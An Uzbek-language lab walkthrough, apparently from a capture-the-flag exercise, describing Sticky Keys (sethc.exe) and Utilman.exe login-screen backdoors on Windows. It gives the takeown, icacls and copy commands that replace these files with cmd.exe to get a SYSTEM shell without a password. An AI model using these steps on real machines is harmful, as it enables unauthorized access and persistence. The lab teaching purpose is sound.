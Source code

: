 ## 🎯 Maqsad:

* Windows tizimiga **foydalanuvchi parolini bilmasdan** kirish.
* Fizik yoki RDP orqali kirish imkoniyati bo‘lsa, **login ekranida** ishlaydigan tizim xizmatlarini **backdoor qilish** orqali **SYSTEM darajasida CMD oynasi ochiladi**.

---

## 🛠 1-USUL: **Sticky Keys orqali backdoor qilish**

### ❓ Sticky Keys nima?

* Windowsda **SHIFT tugmasini 5 marta** bosganda, `sethc.exe` (Sticky Keys interface) ishga tushadi.
* Bu funksiyadan **login ekrani**da ham foydalanish mumkin.

### 🔥 Exploit g‘oyasi:

`C:\Windows\System32\sethc.exe` ni `cmd.exe` bilan almashtirsak, **SHIFT x5** bosganda **SYSTEM huquqdagi CMD** ochiladi!

---

### ⚙️ Amaliy bosqichlar:

1. `sethc.exe` fayliga egalik qilish:

```cmd
takeown /f c:\Windows\System32\sethc.exe
```

2. Faylga to‘liq huquq berish:

```cmd
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
```

3. `cmd.exe` faylini o‘rniga nusxalash:

```cmd
copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

> So‘rasa: `Overwrite?` deb — `Yes` deb yozing

4. **Ekranni bloklash (lock qilish):**

```cmd
rundll32.exe user32.dll,LockWorkStation
```

yoki start menudan `Lock`.

5. Login ekranida **SHIFT tugmasini 5 marta** bosing.

🎉 Natija: `cmd.exe` oynasi ochiladi — **SYSTEM huquqida** ishlaydi!

---

### 🎯 Flag olish:

```cmd
C:\flags\flag14.exe
```

---

## 🛠 2-USUL: **Utilman.exe orqali backdoor qilish**

### ❓ Utilman.exe nima?

* Login ekranidagi **"Ease of Access"** tugmasi — `utilman.exe` ni ishga tushiradi.
* Bu fayl SYSTEM huquqlarida ishlaydi.

### 🔥 Exploit g‘oyasi:

`C:\Windows\System32\Utilman.exe` ni `cmd.exe` bilan almashtirsak, **Ease of Access** tugmasi orqali **SYSTEM CMD** ochiladi.

---

### ⚙️ Amaliy bosqichlar:

1. `utilman.exe` fayliga egalik qilish:

```cmd
takeown /f c:\Windows\System32\utilman.exe
```

2. To‘liq ruxsat berish:

```cmd
icacls C:\Windows\System32\utilman.exe /grant Administrator:F
```

3. `cmd.exe` faylini o‘rniga nusxalash:

```cmd
copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```

4. Ekranni lock qilish:

```cmd
rundll32.exe user32.dll,LockWorkStation
```

5. Login ekranida pastki o‘ng burchakdagi **"Ease of Access"** ni bosing.

🎉 Natija: `cmd.exe` ochiladi — **SYSTEM huquqlarida!**

---

### 🎯 Flag olish:

```cmd
C:\flags\flag15.exe
```

---

## ⚠️ Eslatma:

* Har ikkala usulda ham SYSTEM darajasida ishlayotgan CMD oynasi ochiladi.
* Bu orqali foydalanuvchi parolisiz foydalanuvchi yaratish, xizmatlarni boshqarish, registry o‘zgartirish, va h.k. mumkin bo‘ladi.
* Foydalanuvchi ishi tugagach, asl `sethc.exe` va `utilman.exe` fayllarini qayta tiklash tavsiya qilinadi.
